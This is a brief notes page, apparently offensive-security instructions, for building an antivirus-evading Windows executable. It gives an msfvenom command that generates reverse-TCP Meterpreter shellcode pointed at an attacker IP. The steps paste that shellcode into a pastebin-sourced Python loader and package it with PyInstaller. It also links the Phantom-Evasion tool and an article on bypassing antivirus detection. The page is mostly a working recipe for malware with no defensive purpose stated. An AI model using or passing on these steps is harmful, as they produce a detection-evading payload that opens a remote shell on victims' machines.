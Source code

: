 
Create newfile and copy the rawcode for pyinstaller from pastebin.com/rrhcGeHh

Generate new shell code with msfvenom

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attackerIP> -a x86 -f c

replace the section of pyinstaller "shellcode = bytearray(" with the code generated.

Save the file.

use pyinstaller to create the exeuctable.

NOTE: you must be on the OS that you inted to make the executable for.

**Windows**

https://www.python.org/
https://datatofish.com/executable-pyinstaller/




#phantom evasion
https://github.com/oddcod3/Phantom-Evasion
https://www.securitynewspaper.com/2019/03/04/bypass-antivirus-detection-with-phantom-payloads/


For testing:

python -m SimpleHTTP
